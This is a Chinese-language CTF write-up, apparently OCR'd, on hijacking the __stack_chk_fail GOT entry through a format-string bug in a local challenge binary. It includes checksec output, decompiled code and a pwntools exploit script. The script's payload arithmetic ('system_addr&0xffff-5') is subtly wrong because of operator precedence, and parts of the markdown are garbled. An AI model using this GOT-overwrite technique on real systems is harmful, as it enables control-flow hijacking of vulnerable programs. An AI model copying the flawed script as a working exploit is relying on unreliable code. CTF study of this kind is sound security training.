 ## 劫持\_\_stack\_chk\_fail 函数

### 原理

在开启 canary 保护的程序中，如果 canary 不对，程序会转到**stack\_chk\_fail 函数执行，**stack\_chk\_fail 函数是一个普通的延迟绑定函数，可以通过修改 GOT 表劫持这个函数。利用方式就是通过格式化字符串漏洞来修改 GOT 表中的值。

### 条件

存在格式化字符串漏洞

### 利用

checksec 一波：

```bash
qufeng@qufeng-virtual-machine:~/Desktop/CTF/pwn/stack/canary$ checksec bin3
[*] '/home/qufeng/Desktop/CTF/pwn/stack/canary/bin3'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

IDA 分析一波：

存在格式化字符串漏洞

```bash
int __cdecl main(int argc, const char **argv, const char **envp)
{
  char format; // [rsp+0h] [rbp-60h]
  unsigned __int64 v5; // [rsp+58h] [rbp-8h]

  v5 = __readfsqword(0x28u);
  init(*(_QWORD *)&argc, argv, envp);
  read_n((__int64)&format, 0x58u);
  printf(&format, 88LL);
  return 0;
}
```

思路：先通过格式化字符串漏洞把\_\_stack\_chk*fail 函数对应的 got 表中的值修改成后门函数地址，在通过栈溢出触发\\*\_stack\_chk\_fail 函数的执行从而触发后门函数

脚本如下：

```bash
#-*- coding:utf-8 -*-
from pwn import *
context(os='linux',arch='amd64',log_level='debug')

p = process('./bin3')
e = ELF('./bin3')

system_addr = 0x40084e
stack_chk_fail_got_addr = e.got['__stack_chk_fail']

payload = 'a'*5 + '%' + str(system_addr&0xffff-5) + 'c%8$hn' + p64(stack_chk_fail_got_addr) + 'a'*100

p.sendlineafter('It\'s easy to PWN',payload)
p.interactive()
```

system\_addr&0xffff 的含义是取后门地址的两个低字节，然后通过$hn 写入两个低字节即可。高字节部分后门函数地址和 stack\_chk\_fail 函数地址都是相同的。
